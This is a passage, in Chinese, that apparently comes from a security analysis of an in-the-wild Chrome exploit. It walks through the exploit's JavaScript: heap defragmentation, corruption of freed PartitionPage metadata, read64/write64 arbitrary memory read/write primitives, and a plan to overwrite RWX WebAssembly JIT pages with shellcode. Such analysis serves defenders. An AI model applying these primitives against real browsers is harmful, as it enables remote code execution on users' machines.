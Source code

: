 通过多次调用临时创建的collectGarbage函数来执行堆碎片整理，该函数在循环中创建了一个巨大的ArrayBuffer。

```
function collectGargabe() `{`
    let promise = new Promise(function(cb) `{`
            let arg;
            for (let i = 0; i &lt; 400; i++)
                new ArrayBuffer(1024 * 1024 * 60).buffer;
            cb(arg);
    `}`);
    return promise;
`}`
```

完成这些步骤后，利用代码将执行函数kickPayload()，传入先前创建的BigUint64Array，其中包含先前释放的AudioArray数据的裸指针地址。

```
async function kickPayload(auxArray) `{`
    let audioCtx = new OfflineAudioContext(1, 1, 3000);
    let partitionPagePtr = getPartitionPageMetadataArea(byteSwapBigInt(auxArray[0]));
    auxArray[0] = byteSwapBigInt(partitionPagePtr);
    let i = 0;
    do `{`
            gcPreventer.push(new ArrayBuffer(8));
            if (++i &gt; 0x100000)
                return;
    `}` while (auxArray[0] != BigInt(0));
    let freelist = new BigUint64Array(new ArrayBuffer(8));
    gcPreventer.push(freelist);
    ...
```

利用代码会操纵已释放对象的PartitionPage元数据来达到以下行为。如果将另一个对象的地址写入到BigUint64Array的索引0处，并且创建了一个新的8字节对象并且将位于索引0处的值读回来，那么将读到的是位于先前设置的地址处的值。如果在此阶段在索引0处写入内容，那么该值将被写入先前设置的地址。

```
function read64(rwHelper, addr) `{`
    rwHelper[0] = addr;
    var tmp = new BigUint64Array;
    tmp.buffer;
    gcPreventer.push(tmp);
    return byteSwapBigInt(rwHelper[0]);
`}`

function write64(rwHelper, addr, value) `{`
    rwHelper[0] = addr;
    var tmp = new BigUint64Array(1);
    tmp.buffer;
    tmp[0] = value;
    gcPreventer.push(tmp);
`}`
```

构建任意读/写原语后，进入最后阶段——执行代码。为此，该漏洞利用代码使用了一种流行的利用Web Assembly（WASM）功能的技术。 Google Chrome目前为JIT编译代码分配具有读/写/执行（RWX）特权的页面，可用shellcode覆盖之。首先，该利用代码会启动一个“虚设”WASM模块，这将导致为JIT编译代码分配内存页面。
